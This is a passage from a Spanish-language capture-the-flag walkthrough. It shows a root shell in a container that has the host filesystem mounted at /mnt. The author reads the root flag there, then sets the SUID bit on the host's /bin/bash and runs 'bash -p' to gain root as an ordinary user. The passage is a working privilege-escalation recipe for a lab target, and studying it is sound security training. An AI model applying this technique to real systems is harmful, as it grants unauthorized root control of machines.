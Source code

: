```bash
drwxr-xr-x   2 root root  4096 Apr  2  2018 srv
dr-xr-xr-x  13 root root     0 Sep 19 01:03 sys
drwxrwxrwt   8 root root  4096 Sep 19 05:38 tmp
drwxr-xr-x  10 root root  4096 Apr  2  2018 usr
drwxr-xr-x  11 root root  4096 Apr  2  2018 var
lrwxrwxrwx   1 root root    26 Apr  2  2018 vmlinuz -> boot/vmlinuz-4.9.0-6-amd64
lrwxrwxrwx   1 root root    26 Apr  2  2018 vmlinuz.old -> boot/vmlinuz-4.9.0-4-amd64
root@f51b8f68f6ab:/mnt#
```

En el directorio `/mnt` se encuentra montado la raiz del sistema *padre* y siendo el usuario **root**, podemos visualizar la flag (root.txt). En caso de que queramos una forma más interactiva, podemos dar permisos SUID a la `/bin/bash` y desde la máquina real escalar privilegios.

```bash
root@42a4cc5c0cce:/mnt/root# cd ..
root@42a4cc5c0cce:/mnt# cd bin/
root@42a4cc5c0cce:/mnt/bin# chmod 4755 bash 
root@42a4cc5c0cce:/mnt/bin# ls -l | grep bash
-rwsr-xr-x 1 root root 1099016 May 15  2017 bash
lrwxrwxrwx 1 root root       4 May 15  2017 rbash -> bash
root@42a4cc5c0cce:/mnt/bin# exit
prometheus@olympus:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1099016 May 15  2017 /bin/bash
prometheus@olympus:~$ bash -p
bash-4.4# whoami
root
bash-4.4#
```
